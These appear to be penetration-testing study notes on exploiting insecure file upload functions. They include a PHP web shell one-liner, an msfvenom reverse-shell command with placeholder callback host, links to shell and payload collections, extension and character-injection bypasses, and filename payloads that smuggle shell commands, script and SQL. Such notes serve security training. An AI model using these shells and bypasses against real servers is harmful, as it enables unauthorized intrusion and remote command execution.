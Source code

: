 ## Info

- Occurs when the web application does not have any form of validation filters on the uploaded files

## Enumeration

**PHP**
- Identification: `<?php system("dir");?>`
- One liner cmd php: `<?php system($_REQUEST['cmd']); ?>`
- Shell: https://github.com/Arrexel/phpbash
- Seclists: https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- Pentestmonkey: https://github.com/pentestmonkey/php-reverse-shell
- Msfvenom: `L3pr3ch4un@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

## Client Side Validation

We can either modify the upload request to the back-end server, or we can manipulate the front-end code to disable these type validations.

Note: We may also modify the Content-Type of the uploaded file, though this should not play an important role at this stage, so we'll keep it unmodified.’

**Fuzzing extesions**

Not all extensions will work with all web server configurations, so we may need to try several extensions to get one that successfully executes PHP code.

- **Common Extensions**:https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- **PHP**:https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
- **ASP**: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP

**Reverse Double Extensions**:

In some cases, the file upload functionality itself may not be vulnerable, but the web server configuration may lead to a vulnerability. For example, an organization may use an open-source web application, which has a file upload functionality. Even if the file upload functionality uses a strict regex pattern that only matches the final extension in the file name, the organization may use the insecure configurations for the web server.
**eg:** filename.php.jpg

**Character Injection**:

The following are some of the characters we may try injecting:

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, (shell.php%00.jpg) works with PHP servers with version 5.X or earlier

**Type Filters**

There are two common methods for validating the file content: Content-Type Header or File Content.

**Wordlist**: https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt

**Mime-Type**

Multipurpose Internet Mail Extensions (MIME) is an internet standard that determines the type of a file through its general format and bytes structure.

**Injections in File Name**

```
file$(whoami).jpg
file`whoami`.jpg 
file.jpg||whoami
<script>alert(window.origin);</script>
file';select+sleep(5);--.jpg
```

**Windows Specific**:

One such attack is using reserved characters, such as (|, <, >, *, or ?), which are usually reserved for special uses like wildcards. If the web application does not properly sanitize these names or wrap them within quotes, they may refer to another file (which may not exist) and cause an error that discloses the upload directory. 
